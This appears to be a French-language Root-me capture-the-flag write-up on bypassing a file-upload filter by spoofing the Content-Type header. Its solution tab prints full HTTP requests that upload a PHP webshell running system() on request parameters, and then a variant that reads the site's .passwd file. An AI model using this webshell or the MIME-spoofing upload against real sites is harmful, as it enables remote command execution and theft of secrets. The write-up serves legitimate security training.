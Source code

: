 ```yaml
---
title: Root-me - Web Serveur - File Upload - MIME Type
meta_title: ""
description: Obtenez l'accès à un fichier au travers d'un file upload.
date: 2024-06-07T05:00:00Z
image: /images/rootme_logo.png
categories:
  - Web
  - Facile
author: Emma.exe
tags:
  - Forensic
  - Rootme
draft: false
---
```

## Introduction

Ce challenge consiste à récupérer le contenu du fichier .passwd à la racine du site web via un File Upload.

Pour la résolution de ce challenge je vous propose deux niveaux d'aide : 
- Le premier niveau sous la forme d'indices et de ressources à explorer pour résoudre le challenge, sans pour autant donner la solution
- Le deuxième niveau qui présente un exemple de résolution.

{{< notice "tip" >}} Essayez de ne pas regarder la solution si vous voulez vraiment progresser. Une fois le challenge résolu, il peut être intéressant de la regarder pour apprendre de nouvelles techniques ! {{< /notice >}}

## Résolution

{{< tabs >}} {{< tab "Niveau 1" >}}

Afin de résoudre ce challenge, il va falloir analyser les requêtes HTTP.
Pour cela, je vous conseille d'utiliser **Burp** et plus particulièrement l'onglet **Repeter**. Cela vous permettra de modifier les requêtes avant de les envoyer.

Commencez par l'upload d'un fichier afin de regarder à quoi ressemble la requête.
Tentez ensuite de modifier cette dernière afin d'obtenir ce que vous voulez (ici il s'agit du fichier passwd).

Autre tips : il existe des snippets de code dans toutes les machines Kali, notamment des webshells.
Ils se trouvent dans le dossier `/usr/share/webshells`.
Tel quel, cela ne fonctionnera peut-être pas, mais cela fait une bonne base départ...

{{< /tab >}}

{{< tab "Niveau 2" >}}
La vulnérabilité utilisée ici se situe dans les Headers de la requête HTTP.
Pour vérifier que le type de fichier uploadé est bien de type image, le site regarde le Header "Content-Type".
Sauf que cela ne nous empêche absolument d'uploader un fichier qui n'a rien à voir.

Dans cet exemple j'ai pris comme base de départ le fichier `simple-backdoor.php` présent sur toutes les machines Kali dans `/usr/share/webshells/php`. 

Première tentative en modifiant le content-type : 
```
POST /web-serveur/ch21/?action=upload HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 432
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge01.root-me.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9DdNYGfZ5mzYhp5Y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch21/?action=upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=e8e48070edc02be1a3358b72fcf530eb; session=.eJwlzkEOwkAIAMC_7NnDLgUW-hkDLESvrT0Z_66J84J5t3sdeT7a_jquvLX7c7W9Dd6WGPXhlDNmBGcfCB1mcphLkKl07JbAKb5YITbHrDHYJyeWgwS7dVWSYai0RhnoNlMYOMK4oGwGEqjQwgosXUHck6a0X-Q68_hvsH2-ybsvgg.Zozx_A.TiJSUDTEkquRAH1FCDxQ7Tri1XY
Connection: close

------WebKitFormBoundary9DdNYGfZ5mzYhp5Y
Content-Disposition: form-data; name="file"; filename="simple-backdoor2.php"
Content-Type: image/png


<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}

?>

Usage: testetsttset3=5

<!--    http://michaeldaw.org   2006    -->

------WebKitFormBoundary9DdNYGfZ5mzYhp5Y--
```

Le php est bien exécuté par le site, cependant ce dernier n'accepte pas qu'on mette des paramètres dans l'URL (or, c'est comme cela que fonctionne ce webshell).
Il va donc falloir directement exécuter la commande qui nous intéresse :

```headers
POST /web-serveur/ch21/?action=upload HTTP/1.1
Host: challenge01.root-me.org
Content-Length: 432
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://challenge01.root-me.org
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary9DdNYGfZ5mzYhp5Y
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://challenge01.root-me.org/web-serveur/ch21/?action=upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=e8e48070edc02be1a3358b72fcf530eb; session=.eJwlzkEOwkAIAMC_7NnDLgUW-hkDLESvrT0Z_66J84J5t3sdeT7a_jquvLX7c7W9Dd6WGPXhlDNmBGcfCB1mcphLkKl07JbAKb5YITbHrDHYJyeWgwS7dVWSYai0RhnoNlMYOMK4oGwGEqjQwgosXUHck6a0X-Q68_hvsH2-ybsvgg.Zozx_A.TiJSUDTEkquRAH1FCDxQ7Tri1XY
Connection: close

------WebKitFormBoundary9DdNYGfZ5mzYhp5Y
Content-Disposition: form-data; name="file"; filename="simple-backdoor2.php"
Content-Type: image/png


<!-- Simple PHP backdoor by DK (http://michaeldaw.org) -->

<?php

        echo "<pre>";
        system("cat ../../../.passwd");
        echo "</pre>";
        die;


?>

Usage: testetsttset3=5

<!--    http://michaeldaw.org   2006    -->

------WebKitFormBoundary9DdNYGfZ5mzYhp5Y--
```

Et on obtient le flag !

{{< /tab >}}{{< /tabs >}}
